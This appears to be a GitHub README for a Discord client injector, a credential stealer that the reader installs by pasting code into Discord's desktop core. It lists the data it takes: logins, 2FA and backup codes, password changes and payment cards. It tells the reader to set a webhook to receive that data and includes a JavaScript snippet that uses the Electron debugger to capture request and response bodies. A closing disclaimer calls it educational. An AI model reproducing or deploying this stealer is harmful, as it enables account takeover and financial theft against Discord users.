 <h1 align="center">
  Discord Injection 💉
</h1>

## Features
- Intercept login, register and 2FA login requests
- Intercept backup codes requests
- Intercept email/password changes requests
- Intercept credit card/paypal adding
- Logout user after initial injection
- Block usage of QR Code to login
- Block request to see devices

## Installation
- Completely close Discord
- Copy the [injection code](https://raw.githubusercontent.com/saeed0x1/proxycord-discord-injector/main/injection.js) inside your Discord desktop core:

`%APPDATA%\Local\Discord\app-<app-version>\modules\discord_desktop_core-<core-version>\discord_desktop_core\index.js`

- Replace `%WEBHOOK%` by your Discord webhook. The informations intercepted will be sent this way.
- Restart Discord

## How does backup codes sniffing work ?
I use the [debugger](https://www.electronjs.org/docs/latest/api/debugger) instead of the [WebRequests instance methods](https://www.electronjs.org/docs/latest/api/web-request#instance-methods). It allow me to get request body AND response body:

```js
mainWindow.webContents.debugger.on('message', async (_, method, params) => {
    if (method !== 'Network.responseReceived') return;
    if (![200, 202].includes(params.response.status)) return;

    const responseUnparsedData = await mainWindow.webContents.debugger.sendCommand('Network.getResponseBody', {
        requestId: params.requestId
    });
    const responseData = JSON.parse(responseUnparsedData.body);

    const requestUnparsedData = await mainWindow.webContents.debugger.sendCommand('Network.getRequestPostData', {
        requestId: params.requestId
    });
    const requestData = JSON.parse(requestUnparsedData.postData);
})
```
The backup codes are in the response body of `/mfa/codes-verification` request

## Disclaimer:

### Important Notice:
This injection is inteded for educational purposes only. This is provided strictly for educational and research purposes. Under no circumstances this should be used for any malicious activities, including but not limited to unauthorized access, data theft, or any other harmful actions.


